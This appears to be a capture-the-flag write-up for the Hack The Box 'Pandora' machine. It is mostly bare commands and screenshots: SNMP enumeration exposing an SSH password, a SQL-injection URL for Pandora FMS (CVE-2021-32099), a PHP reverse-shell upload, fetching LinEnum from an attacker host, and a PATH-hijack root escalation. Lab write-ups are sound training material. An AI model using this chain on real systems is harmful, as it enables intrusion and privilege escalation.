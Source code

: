 ```
nmap -sU -T5 10.10.11.136
snmpwalk -v 1 -c public 10.10.11.136
ssh daniel@10.10.11.136
ssh -D 9090 daniel@10.10.11.136
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
Upload - php-reverse-shell.php
./LinEnum.sh
cat .ssh/id_rsa.pub
SUID - /usr/bin/pandora_backup
```


```
nmap -sS -sC -sV -T5 -Pn 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/783c0a61-c2ae-4652-a77c-8c615fa61310)


```
nmap -sU -T5 10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/70bf96b2-f539-4e14-a866-3e1bf2fc1211)


```
snmpwalk -v 1 -c public 10.10.11.136
-u daniel -p HotelBabylon23
```
![image](https://github.com/regarmulia/HTB/assets/33616880/120ed051-63da-4d3b-927a-c419509d82c3)
![image](https://github.com/regarmulia/HTB/assets/33616880/38b03b03-c72d-4381-897e-14f64582dd2a)


```
ssh daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f28a9f8-4695-4394-84c3-145547d2a320)
![image](https://github.com/regarmulia/HTB/assets/33616880/d04e878e-cdee-49f6-a281-434d4dcfccb4)


```
ssh -D 9090 daniel@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/857388f7-35c5-4472-9db5-3d88c6b8b6e5)
![image](https://github.com/regarmulia/HTB/assets/33616880/eba91bdb-2bca-4444-b4c9-542de52b1a69)
![image](https://github.com/regarmulia/HTB/assets/33616880/5bcddd33-ecda-4274-b889-0a4c003fd27a)


```
https://github.com/akr3ch/CVE-2021-32099
http://localhost/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
![image](https://github.com/regarmulia/HTB/assets/33616880/22da2deb-1455-46d3-8600-243ffca070fc)


```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6991e767-eb7a-414c-8e21-c3a28fa6f48e)
![image](https://github.com/regarmulia/HTB/assets/33616880/51e9ef10-a301-41e7-9e9f-eb9027136b49)
![image](https://github.com/regarmulia/HTB/assets/33616880/d490962d-28bd-41a9-be4f-4c217c931446)


```
git clone https://github.com/rebootuser/LinEnum.git
python3 -m http.server 80
wget 10.10.14.2/LinEnum.sh
./LinEnum.sh
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0cc90b26-5b28-45a4-9e72-783e13039117)
![image](https://github.com/regarmulia/HTB/assets/33616880/84ea311d-860d-44de-bb27-bd6f7c761cf5)


```
cat .ssh/id_rsa.pub
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1921f65b-f11c-483e-af92-1ca195986c1b)


```
ssh matt@10.10.11.136
```
![image](https://github.com/regarmulia/HTB/assets/33616880/8a869095-c97f-48ed-8b60-b52de43c8a34)


```
/usr/bin/pandora_backup
echo "/bin/bash" > /tmp/tar
chmod +x /tmp/tar
echo $PATH
export PATH=/tmp:$PATH
echo $PATH
/usr/bin/pandora_backup
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c498fe5-d909-4f75-9df4-5f1701d14f48)
![image](https://github.com/regarmulia/HTB/assets/33616880/6e321060-68b7-45c0-aee4-6eac149b3465)


